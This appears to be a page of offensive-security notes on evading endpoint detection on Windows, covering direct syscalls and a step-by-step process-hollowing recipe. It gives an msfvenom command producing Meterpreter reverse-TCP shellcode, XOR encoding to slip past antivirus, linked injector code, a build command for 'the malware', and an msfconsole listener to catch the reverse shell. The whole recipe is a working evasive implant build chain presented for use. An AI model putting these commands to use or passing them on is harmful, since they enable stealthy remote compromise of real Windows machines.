 #### Direct syscalls

SysCalls provided by windows API (dlls like kernel32.dll, etc...)
Are watched by EDR and AVs to checks the passed parameters
To avoid that we can make / create our own syscalls using [Dinvoke](https://github.com/TheWover/DInvoke) for C# and [Syswhispers](https://www.google.com/search?q=Syswhisper&oq=syswhisper&aqs=chrome.0.69i59j0i512l7j0i30l2.1465j0j4&sourceid=chrome&ie=UTF-8) for C++.
Take a look at [this video by processus thief](https://www.youtube.com/watch?v=n5r2jc2X6lc)

### Other:

---

#### Process Hollowing

Explanatory video:
https://www.youtube.com/watch?v=CTkbSiOBi58

##### 1 - Generate a shellcode
You can get a lot of shell code at : https://shell-storm.org/shellcode/
Or use metasploit:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<port> EXITFUNC=thread -f csharp
```

##### 2 - Encode (XOR) your shellcode with this dotnet:
Use this C#.Net program:
https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs
(it's a good idea to change the `0xfa` key to another value).

Then run the program:
```bash
dotnet run
```
then copy the given encoded shellcode

##### 3 - Process Hollowing
Use this C#.Net program:
https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Hollowing/Program.cs

Replace the byte array by your own encoded shellcode copied previously
If you had changed the encode key (`0xfa`) you have to put the same value here too.

Then build the malware:
```bash
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```

##### 4 - Start a listener
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 0.0.0.0; set lport <port>; exploit"
```
